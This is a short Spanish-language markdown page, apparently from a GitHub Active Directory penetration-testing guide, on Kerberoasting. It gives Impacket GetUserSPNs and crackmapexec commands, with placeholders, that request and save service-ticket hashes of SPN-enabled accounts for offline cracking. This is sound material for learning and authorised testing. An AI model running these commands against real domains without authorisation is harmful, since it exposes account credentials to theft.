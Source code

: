 # Obtener usuarios kerberoasteables

```
# Obtención de hash de usuarios con el SPN habilitado
python /usr/share/doc/python3-impacket/examples/GetUserSPNs.py -request -dc-ip <DC ip> <nombre dominio completo>/<user>:<pass> -outputfile kerberoasting.hashes

# Hash con crackmapexec
crackmapexec ldap <IP ldap> -u '<user>' -p '<pass>' -d <nombre dominio completo> --kerberoasting <output file>

```

![Alt text](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/valid_credentials/kerberoasting/vid.gif?raw=true "Obteniendo hashes de usuarios con SPN habilitado")
